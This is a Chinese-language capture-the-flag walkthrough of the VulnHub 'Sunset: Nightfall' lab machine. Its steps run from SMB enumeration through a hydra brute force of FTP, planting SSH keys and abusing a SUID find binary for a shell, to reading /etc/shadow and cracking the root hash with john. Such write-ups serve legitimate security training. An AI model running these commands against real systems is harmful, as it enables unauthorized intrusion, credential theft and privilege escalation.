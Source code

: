 # Sunset: Nightfall

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Nightfall（IP：192.168.56.104）

下载：https://www.vulnhub.com/entry/sunset-nightfall,355/

## Let's go

```
nmap -A 192.168.56.104
```

![](./img/Sunset：Nightfall-01.png)![](./img/Sunset：Nightfall-02.png)

```
dirb http://192.168.56.104/
```

![](./img/Sunset：Nightfall-03.png)

> **并没有发现什么，我们对SMB进行枚举**

```
enum4linux -a 192.168.56.104
```

![](./img/Sunset：Nightfall-04.png)

> **得到两个用户 ‘nightfall’ 和 ‘matt’ ，接下来我们进行暴力破解**

```
# SSH破解很长时间无效果，FTP破解很快就出来了
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -e nsr 192.168.56.104 ftp -f
```

![](./img/Sunset：Nightfall-05.png)

```
ftp 192.168.56.104
username:matt
password:cheese
```

![](./img/Sunset：Nightfall-06.png)

```
# 我们通过FTP将SSH密钥上传
ssh-keygen
cp .ssh/id_rsa.pub authorized_keys
chmod 777 authorized_keys
```

![](./img/Sunset：Nightfall-07.png)

```
mkdir .ssh
cd .ssh
put authorized_keys
```

![](./img/Sunset：Nightfall-08.png)

```
ssh matt@192.168.56.104
```

![](./img/Sunset：Nightfall-09.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![](./img/Sunset：Nightfall-10.png)

```
cd /scripts
./find . -exec /bin/sh -p \;
```

![](./img/Sunset：Nightfall-11.png)

> **这是一个受限的shell，因此我们要想办法**

```
cd /home/nightfall
mkdir .ssh
cd .ssh
wget http://192.168.56.102/authorized_keys
```

![](./img/Sunset：Nightfall-12.png)

```
ssh nightfall@192.168.56.104
```

![](./img/Sunset：Nightfall-13.png)

```
sudo -l
```

![](./img/Sunset：Nightfall-14.png)

```
sudo cat /etc/shadow
```

![](./img/Sunset：Nightfall-15.png)

```
vim root		# 将哈希写入root
john root
```

![](./img/Sunset：Nightfall-16.png)

```
su root
password:miguel2
cd
cat root_super_secret_flag.txt
```

![](./img/Sunset：Nightfall-17.png)